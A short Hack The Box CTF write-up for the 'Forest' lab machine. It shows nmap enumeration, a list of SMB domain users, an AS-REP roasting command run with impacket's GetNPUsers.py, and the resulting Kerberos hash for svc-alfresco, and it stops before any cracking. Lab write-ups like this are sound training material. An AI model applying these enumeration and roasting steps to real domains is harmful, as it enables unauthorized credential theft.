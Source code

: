 ```yaml
---
title:  "Hack The Box - Forest"
date:   2020-03-19
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf]
---
```

My write-up / walktrough for Forrest on Hack The Box.

IP is 10.10.10.161, forest.htb

## Enumeration
`nmap -sV -p 1-10000 -T5 forest.htb`

![nmap](/images/forest/nmap.png)

used `legion`

smbenum gave me 

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

able to ASRepRoast

`sudo python3 /usr/local/bin/GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile user.txt htb.local/
`

```$krb5asrep$23$svc-alfresco@HTB.LOCAL:206e99c105941b80bb9ce49a11f10b0a$33d27576ae3f6c4c01f30b03fe45ae0eb20a12d2768ca6cf0e2d747e38e2406181c5d030bd9b0a9f7eeebef78955939b5b66a799b760723d1a5ed32471bf9234d2b0a2e08f71330cf36b76b2b43a17776df8fea2155674009953f336e852f7b14a6ad5ef11619dcf7761300dd1bc7bda3363f6303448f0759399339ea26ca964f2ace2e3d7959c7ce22bf12b4f756f67b1ba52795cbd97ed3e04dbfb8b8ee37b2f253bc8637dcb2270225eee5e625e8f2e77c085e62bad96bd003b39e961373f61cb8e50411fb2d36a548cd5721eb8f7aa271b62ba32c4fc8fe94b687c9943bf7ce5db4229da
```

![asreproast](/images/forest/asreproast.png)

